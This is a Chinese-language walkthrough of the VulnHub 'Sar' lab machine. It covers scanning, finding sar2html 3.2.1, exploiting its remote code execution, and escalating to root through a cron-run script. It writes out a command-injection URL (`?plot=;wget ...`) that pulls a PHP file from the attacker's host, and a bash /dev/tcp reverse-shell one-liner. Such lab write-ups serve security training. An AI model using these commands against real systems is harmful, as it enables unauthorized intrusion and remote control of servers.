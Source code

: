 ## Sar : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.110` |
| Kali          | `192.168.1.112` |
| Sar           | `192.168.1.105` |

### 扫描端口和版本信息

`nmap -A 192.168.1.105`

![1](../src/vulnhub/sar/1.png)

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache 2.4.29** 服务器，并且只开启 **80** 端口

![2](../src/vulnhub/sar/2.png)

使用 *dirb* 工具枚举目录

![3](../src/vulnhub/sar/3.png)

访问 `robots.txt` 文件返回 `sar2HTML`，继续访问该路径发现服务器运行 `sar2html v3.2.1` Web 应用

![4](../src/vulnhub/sar/4.png)

OSINT 查找该应用漏洞，发现一个 **RCE** 漏洞

![5](../src/vulnhub/sar/5.png)

接下来根据给出的信息利用 RCE 漏洞

![6](../src/vulnhub/sar/6.png)

尝试直接反弹 shell 发现不行，那么就用 `wget` 工具下载 PHP 脚本到本地来反弹 shell

![7](../src/vulnhub/sar/7.png) 

### Getshell

Kali 端创建 getshell.php 脚本

```php
echo "<?php system(\"bash -c 'bash -i >& /dev/tcp/192.168.1.112/4455 0>&1'\");?>" > getshell.php
```

浏览器访问 `?plot=;wget http://192.168.1.112:8088/getshell.php`，这样虚拟机当前目录下就有 *getshell.php* 文件

Kali 监听 **4455** 端口即可 getshell

![8](../src/vulnhub/sar/8.png)

在 `/home/love/Desktop/` 路径下发现 `user.txt` 文件，内容是 MD5 值：`427a7e47deb4a8649c7cab38df232b52`，经过解密得知是 `user.txt` 字符串的 MD5 值，后来尝试使用该密码登录虚拟机，却发现密码不对，想必这只是混淆视听并无用处

接下来通过查找具有 SUID 权限的命令，发现 `ping` 、 `arping` 、`pkexec`和 `pppd`不是默认具有 SUID 权限的工具，因此可以尝试提权

![9](../src/vulnhub/sar/9.png)

### 提权

为了收集更多信息，还是上传 *LinEnum.sh* 脚本运行一下。发现存在一个定时任务执行`/var/www/html`目录下`finally.sh`脚本，并且是 *root* 账户下的定时任务

![10](../src/vulnhub/sar/10.png)

因此我们修改 *write.sh* 脚本即可提权

![11](../src/vulnhub/sar/11.png)

Kali 监听 **5566** 端口后过一段时间即可获得 root 权限

![12](../src/vulnhub/sar/12.png)